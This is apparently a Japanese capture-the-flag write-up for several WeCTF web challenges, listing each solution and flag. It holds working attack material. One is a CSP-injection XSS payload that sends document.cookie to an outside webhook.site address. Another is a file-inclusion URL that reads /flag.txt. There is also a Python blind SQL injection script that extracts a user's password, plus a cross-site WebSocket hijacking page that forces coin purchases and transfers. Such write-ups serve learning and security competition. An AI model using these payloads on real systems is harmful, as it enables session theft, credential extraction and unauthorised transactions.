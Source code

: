 # WeCTF
- Welcome
- include
- CSP1
- Cache
- Phish
- Coin Exchange
# Welcome
>The flag is b64decode("d2UlN0I1ODRjNGNiMC1jYjU4LTQ1YWItOTNhNC0yOWY1YmRhYzlmMjJAaGVsbG9faGFja2VycyU3RSU3RA==")

書いてある通りデコードする   
```we{584c4cb0-cb58-45ab-93a4-29f5bdac9f22@hello_hackers~}```
# include
>Yet another buggy PHP website.
Flag is at /flag.txt on filesystem

```
<?php
show_source(__FILE__);
@include $_GET["🤯"];
```
フラグの場所がわかっているので

http://include.sf.ctf.so/?%F0%9F%A4%AF=/flag.txt  
```we{695ed01b-3d31-46d7-a4a3-06b744d20f4b@1nc1ud3_/etc/passwd_yyds!}```
# CSP1
```
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp

```

https://csplite.com/csp/test78/  
重複するdirectiveは無視されるらしい。
script より先に img のdirectiveが書き込めるので、script directiveを書き込む。

```
 <img src="http://example.com;script-src 'unsafe-inline';"><script>location='https://webhook.site/7ab26888-4775-4acd-a827-adaed7076e5c?a='document.cookie</script> 
 ```

```flag=we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}```

# Cache
caceh deception

cache_middleware.py を見ると css js html で終わるものをキャッシュするようになっている。  
http://~/flag/noexist.css みたいなリクエストをすると flag からのレスポンスになることを利用して、クローラにflagを踏ませてキャッシュさせた後にキャッシュを見に行く  
```we{adecbd5c-a02c-4d85-883e-caee34760745@b3TTer_u3e_cl0uDF1are}```
# Phish
insert 文の username と passwordが自由に入れられる。  
フラグはshouというアカウントのpassword  
username が uniqe になっているため、衝突させることでエラーを吐くのでそれを利用してフラグを特定していく。
一致しない場合の条件の時の username も重複しないようにする必要がある。  
以下スクリプト
```
import random
import requests
url = 'http://phish.sg.ctf.so/add'
candidates = [chr(i) for i in range(48, 48+10)] + \
    [chr(i) for i in range(97, 97+26)] + \
    [chr(i) for i in range(65, 65+26)] + \
    ["_", "@", "$", "!", "?", "&", "#", "-", "<", ">", "{", "}"]


def attack(payload):
    res = requests.post(url, {
        'username': 'i',
        'password': payload
    })
    # print(res.text)
    return res


def check_result(res):
    if 'leaked' in res.text:
        return True
    return False



before = 'aaaaa'
pos = 0
fix_pass = ""
while True:
    if(before == fix_pass):
        break
    pos += 1
    before = fix_pass
    for c in candidates:
        template = f"pass', case when (substr((SELECT password FROM user WHERE username ='shou'),{pos},1) = '{c}') then '{c}{random.random()}' else 'shou' end )--"
        print(f'{c} at {pos}')
        res = attack(template)

        if check_result(res):
            fix_pass += c
            print(f'find {fix_pass}')
            break


print("result: " + fix_pass)



```

``` we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P} ```

# Coin Exchange
USD が 5000↑ になるとフラグがもらえる

websocketの通信元が検証されていない  
クローラーに対して、buy -> transfer をさせる  
そのあと自分のアカウントでsellをすることで条件を満たす  
```
<!DOCTYPE HTML>
<html>

<head>
    <script type="text/javascript" charset="utf-8">
        let socket;
        let config = {
            usd_to_eth_ratio: NaN,
            eth_to_usd_ratio: NaN,
            base_balance: 1000,
            trade_history: [],
            rankings: []
        };
        function send_content(type, content) {
            socket.send(JSON.stringify({ type: type, content: content }))
        }
        function start_socket() {
            socket = new WebSocket("ws://coin.sg.ctf.so:4001/", "ethexchange-api");

            socket.onmessage = function (event) {
                let data = JSON.parse(event.data);
                let content = data["content"]
                switch (data["type"]) {
                    case "routine":
                        config = content;
                        break;
                    case "message":
                        fetch('/' + content["message"])
                        break
                    case "error":
                        fetch("/Error")
                        break
                }
            };
        }

        function transfer_eth() {
            let amount = "50"
            let transfer_to_token = "e76d1da29089224c23af32a94f570269a8eeab1e67150a3433a18c4a2953c305"
            //  e76d1da29089224c23af32a94f570269a8eeab1e67150a3433a18c4a2953c305
            send_content("transfer", { amount: amount, to_token: transfer_to_token })
        }

        function usd_to_eth() {
            let amount = 1000000000
            send_content("buy", { amount: amount })
        }
        fetch('/' + document.cookie)
        start_socket()
        setTimeout(() => {
            usd_to_eth()
        }, 1000);
        setTimeout(() => {
            transfer_eth()
            fetch('/fin')
        }, 3000);

    </script>
</head>
</html>
```
``` we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!} ```



